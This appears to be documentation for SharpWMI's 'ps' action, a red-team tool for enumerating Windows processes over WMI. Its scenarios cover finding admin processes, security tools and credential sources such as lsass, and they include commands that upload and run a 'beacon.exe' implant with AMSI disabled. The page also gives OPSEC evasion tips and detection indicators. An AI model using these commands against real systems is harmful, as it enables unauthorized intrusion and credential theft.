 ```yaml
---
title: 'ps'
description: 'List running processes with owner information'
icon: 'list'
---
```


## Overview

The `ps` action enumerates running processes on local and remote systems, including process ID, name, owner, and command line. It queries the `Win32_Process` WMI class and invokes the `GetOwner` method to retrieve process ownership information.

## Syntax

```bash
SharpWMI.exe action=ps [computername=HOST[,HOST2,...]] [username=DOMAIN\user] [password=Password]
```

## Parameters

| Parameter | Required | Description |
|-----------|----------|-------------|
| `action` | Yes | Must be `ps` |
| `computername` | No | Target host(s), comma-separated. Defaults to localhost |
| `username` | No | Username for authentication |
| `password` | No | Password for authentication |

## Usage Examples

<CodeGroup>
```bash Local System
SharpWMI.exe action=ps
```

```bash Remote System
SharpWMI.exe action=ps computername=target.domain.com
```

```bash With Credentials
SharpWMI.exe action=ps computername=target.domain.com username="DOMAIN\admin" password="Password123!"
```

```bash Multiple Hosts
SharpWMI.exe action=ps computername=server1,server2,server3
```
</CodeGroup>

### Example Output

```
   PID |                           Name |                     Owner | CommandLine
------+--------------------------------+---------------------------+------------------------------------------
  1234 |                   chrome.exe   |         DOMAIN\jdoe       | "C:\Program Files\Google\Chrome\Application\chrome.exe"
  5678 |                 powershell.exe |    DOMAIN\Administrator   | powershell.exe -NoProfile -ExecutionPolicy Bypass
  9012 |                      cmd.exe   |         DOMAIN\jdoe       | cmd.exe
  3456 |                  explorer.exe  |         DOMAIN\jdoe       | C:\Windows\Explorer.EXE
   748 |                   svchost.exe  |    NT AUTHORITY\SYSTEM    | C:\Windows\system32\svchost.exe -k NetworkService
```

## Output Fields

| Field | Description |
|-------|-------------|
| PID | Process ID |
| Name | Process executable name |
| Owner | Domain\Username running the process |
| CommandLine | Full command line with arguments |

## Operational Use Cases

### Scenario 1: Hunt for Admin Processes

```bash
# Look for admin-owned processes
SharpWMI.exe action=ps computername=workstation.domain.com
```

Identify:
- Processes owned by domain admins
- Privileged service accounts
- SYSTEM-owned processes
- Interactive admin sessions

### Scenario 2: Detect Security Tools

```bash
# Enumerate processes on target
SharpWMI.exe action=ps computername=target.domain.com
```

Look for:
- AV processes (MsMpEng.exe, AvastSvc.exe)
- EDR agents (CrowdStrike, Carbon Black)
- Monitoring tools (Sysmon)
- PowerShell activity

### Scenario 3: Identify Credential Sources

```bash
# Check for credential-rich processes
SharpWMI.exe action=ps computername=target.domain.com username="DOMAIN\admin" password="Password123!"
```

Target processes:
- lsass.exe (credential dumping)
- Browser processes (saved passwords)
- Password managers (KeePass, 1Password)
- Database connections

### Scenario 4: Post-Exploitation Verification

```bash
# Verify payload execution
SharpWMI.exe action=upload computername=target source="beacon.exe" dest="C:\temp\svc.exe" amsi=disable
SharpWMI.exe action=exec computername=target command="C:\temp\svc.exe"
SharpWMI.exe action=ps computername=target
```

Confirm:
- Beacon is running
- Process ID and owner
- Command line arguments
- Parent process

## Remote vs Local Usage

<Tabs>
  <Tab title="Local Enumeration">
    ```bash
    SharpWMI.exe action=ps
    ```

    **When to use:**
    - Post-exploitation enumeration
    - Local process discovery
    - No remote access available

    **Advantages:**
    - No network traffic
    - No authentication required
    - Faster execution
  </Tab>

  <Tab title="Remote Enumeration">
    ```bash
    SharpWMI.exe action=ps computername=target.domain.com
    ```

    **When to use:**
    - Reconnaissance phase
    - Credential hunting
    - Target validation
    - Multi-system enumeration

    **Requirements:**
    - Admin privileges on target
    - WMI access over network
  </Tab>
</Tabs>

## Detection Considerations

<AccordionGroup>
  <Accordion title="WMI Detection" icon="radar">
    - WMI queries for `Win32_Process` class
    - GetOwner method invocations
    - Event ID 5857: WMI activity
    - Sysmon Event ID 19-21: WMI operations
  </Accordion>

  <Accordion title="Reconnaissance Patterns" icon="magnifying-glass">
    - Process enumeration across multiple systems
    - Queries from non-administrative hosts
    - Bulk queries in short timeframe
    - Correlation with other enumeration
  </Accordion>

  <Accordion title="Network Detection" icon="network-wired">
    - WMI/DCOM traffic on port 135
    - Multiple connections from single source
  </Accordion>
</AccordionGroup>

## Best Practices

<CardGroup cols={2}>
  <Card title="Operational Security" icon="user-secret">
    - Limit query frequency
    - Blend with legitimate admin activity
    - Use during business hours
    - Avoid bulk enumeration
  </Card>

  <Card title="Data Analysis" icon="chart-line">
    - Filter system processes
    - Focus on user-owned processes
    - Look for unusual command lines
    - Identify high-value targets
  </Card>
</CardGroup>

## Filtering Process Output

Since SharpWMI returns all processes, you may want to filter results. Here are common targets:

### Interesting Processes

- **PowerShell:** `powershell.exe`, `pwsh.exe`
- **Credential Access:** `lsass.exe`, `mstsc.exe`
- **Security Tools:** `MsMpEng.exe`, `cb.exe`, `falcon-sensor.exe`
- **Browsers:** `chrome.exe`, `firefox.exe`, `msedge.exe`
- **Shells:** `cmd.exe`, `conhost.exe`

## Troubleshooting

<AccordionGroup>
  <Accordion title="Access Denied">
    **Cause:** Insufficient privileges

    **Solution:**
    - Use `username` and `password` parameters
    - Verify admin rights on target
    - Check UAC remote restrictions
  </Accordion>

  <Accordion title="Empty Owner Field">
    **Cause:** GetOwner method failed

    **Solution:**
    - Some system processes don't have owners
    - This is normal for SYSTEM processes
    - Check permissions if user processes show empty
  </Accordion>

  <Accordion title="RPC Server Unavailable">
    **Cause:** Network or service issue

    **Solution:**
    - Verify target is online
    - Check firewall rules
    - Ensure WMI service is running
  </Accordion>
</AccordionGroup>

## Related Actions

<CardGroup cols={2}>
  <Card title="terminate" icon="xmark" href="/ghostpack-docs/SharpWMI-mdx/actions/terminate">
    Kill processes by name or PID
  </Card>
  <Card title="query" icon="database" href="/ghostpack-docs/SharpWMI-mdx/actions/query">
    Custom process queries
  </Card>
  <Card title="exec" icon="terminal" href="/ghostpack-docs/SharpWMI-mdx/actions/exec">
    Create new processes
  </Card>
  <Card title="loggedon" icon="users" href="/ghostpack-docs/SharpWMI-mdx/actions/loggedon">
    Enumerate logged-on users
  </Card>
</CardGroup>

## Alternative Query Methods

<Accordion title="Processes by Name">
  ```bash
  SharpWMI.exe action=query computername=target query="SELECT ProcessId,Name,CommandLine FROM Win32_Process WHERE Name='powershell.exe' OR Name='cmd.exe'"
  ```
</Accordion>

<Accordion title="Processes by Path">
  ```bash
  SharpWMI.exe action=query computername=target query="SELECT ProcessId,Name FROM Win32_Process WHERE ExecutablePath LIKE '%temp%'"
  ```
</Accordion>

<Accordion title="High CPU Processes">
  ```bash
  SharpWMI.exe action=query computername=target query="SELECT ProcessId,Name FROM Win32_Process WHERE PercentProcessorTime > 50"
  ```
</Accordion>
